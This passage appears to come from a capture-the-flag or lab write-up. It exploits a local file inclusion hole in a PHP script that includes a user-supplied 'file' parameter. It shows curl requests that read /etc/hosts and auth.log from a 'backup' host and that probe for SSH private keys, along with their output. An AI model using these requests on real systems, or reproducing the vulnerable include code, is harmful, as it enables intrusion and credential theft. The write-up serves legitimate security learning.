 Not useful, let's come back to our previous download code called ```log_checker.php```.

```php
<?php
    $file = $_GET['file'];
    if(isset($file))
    {
        include("$file");
    }
    else
    {
        include("/var/log/backup.log");
    }
?>
```

So this code will look if you provided a file and if you provided one, it will return its content, else it will return the content of ```/var/log/backup.log```.

Great, so we got a LFI vulnerability here, and apparently it's the code used when we use the command ```curl backup```.

Let's come back to the SSH instance, and let's try to read the ```/etc/hosts``` file.

```bash
bob@dev:~$ curl "http://backup/?file=/etc/hosts"
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.99.6.2       backup
```

Perfect! We can successfully exploit the LFI on the backup machine.

Now we need to enumerates the machine from the LFI vulnerability. First we try direclty to look if there is a SSH key located in the `/home/backup/.ssh/` directory.

```bash
bob@dev:~$ curl http://backup/?file=/home/backup/.ssh/id_rsa.pub
bob@dev:~$ curl http://backup/?file=/home/backup/.ssh/id_rsa
bob@dev:~$ curl http://backup/?file=/home/backup/.ssh/known_hosts
bob@dev:~$
```

Seem not. We know that initially, the utility will read the backup log. So let's look if we can read SSH logs.

```bash
bob@dev:~$ curl "http://backup/?file=/var/log/auth.log"
May 15 20:24:39 backup sudo: pam_unix(sudo:session): session closed for user root
May 15 20:24:39 backup sshd[54]: Server listening on 0.0.0.0 port 22.
May 15 20:24:39 backup sshd[54]: Server listening on :: port 22.
May 15 20:25:01 backup CRON[55]: pam_env(cron:session): Unable to open env file: /etc/default/locale: No such file or directory
May 15 20:25:01 backup CRON[55]: pam_unix(cron:session): session opened for user dave(uid=1000) by (uid=0)
May 15 20:25:02 backup CRON[55]: pam_unix(cron:session): session closed for user dave
May 15 20:26:01 backup CRON[69]: pam_env(cron:session): Unable to open env file: /etc/default/locale: No such file or directory
May 15 20:26:01 backup CRON[69]: pam_unix(cron:session): session opened for user dave(uid=1000) by (uid=0)
May 15 20:26:01 backup CRON[69]: pam_unix(cron:session): session closed for user dave
May 15 20:27:01 backup CRON[83]: pam_env(cron:session): Unable to open env file: /etc/default/locale: No such file or directory
...
```
